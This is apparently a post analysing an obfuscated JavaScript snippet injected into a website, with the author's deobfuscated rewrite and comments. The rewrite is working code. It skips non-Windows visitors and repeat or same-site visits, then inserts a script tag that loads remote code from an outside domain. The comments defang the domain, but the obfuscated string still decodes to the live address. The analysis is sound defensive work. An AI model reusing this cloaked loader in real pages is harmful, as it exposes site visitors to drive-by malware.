 This is clearly an attempt to obfuscate what the code is doing, so I'll do the work to "reverse-engineer" this into something that makes more sense:

```javascript

/**
 * @brief Deobfuscates a string
 * @details Takes every other character of the original string
 *
 * @param {string} obfuscated_str Obfuscated string to deobfuscate
 * @returns {string} Deobfuscated string
 */
function deobfuscate_str(obfuscated_str) {
    var deobfuscated_str = "";
    for (var i = 0; i < obfuscated_str.length; i++) {
        if (i % 2) {
            deobfuscated_str += obfuscated_str[i];
        }
    }
    return deobfuscated_str;
}

// Check if any are true, if so return:
//  1. No referrer
//  2. The current page and the referrer both have match the regex "://([^/]+)/"
//  3. The User Agent does *not* have the string "Windows"
//  4. The key "___utma" in the local storage has a "truthy" value
var re = new RegExp(deobfuscate_str("p:p/z/j(a[c^y/t]c+x)y/x") /* ://([^/]+)/ */);
if (
    !document.referrer || window.location.href.match(re)[1] == document.referrer.match(re)[1] || 
    navigator.userAgent.indexOf(deobfuscate_str("xWvitnadrobwbsr") /* Windows */) == -1 || 
    window.localStorage[deobfuscate_str("k_m_h_suetemmal") /* ___utma */]
) {
    return;
}

// 1. Create a <script> element
// 2. Set the element's "async" attribute to "true"
// 3. Set the element's "src" attribute to "hxxps[://]training[.]c1ypsilanti[.]org/report?r=dj01MDY1NDg3MTIwZTU2ZmQ1ZTZlNCZjaWQ9MjY0"
// 4. Get all elements with the tag "<script>"
// 5. Insert the newly created element above that
var script_str = deobfuscate_str("usvcxrqizpktc") /* script */;
var script_elem = document.createElement(script_str);
script_elem.async = true;
script_elem.src = deobfuscate_str("shntitiphss:r/j/jtjraajirnyibnngg.acq1nygpvsjiklhadnbtjie.conrugt/xroeipmodrstt?rrv=cdnjs0k1mMlDjYf1pNkDkgz3sMpTzInwfZpTkUj2aZxmyQx1kZhTgZllvNeCuZajwatWgQp9bMajkYf0u") /* hxxps[://]training[.]c1ypsilanti[.]org/report?r=dj01MDY1NDg3MTIwZTU2ZmQ1ZTZlNCZjaWQ9MjY0 */;
var script_elem_ = document.getElementsByTagName(script_str)[0];
script_elem_.parentNode.insertBefore(script_elem, script_elem_);
```
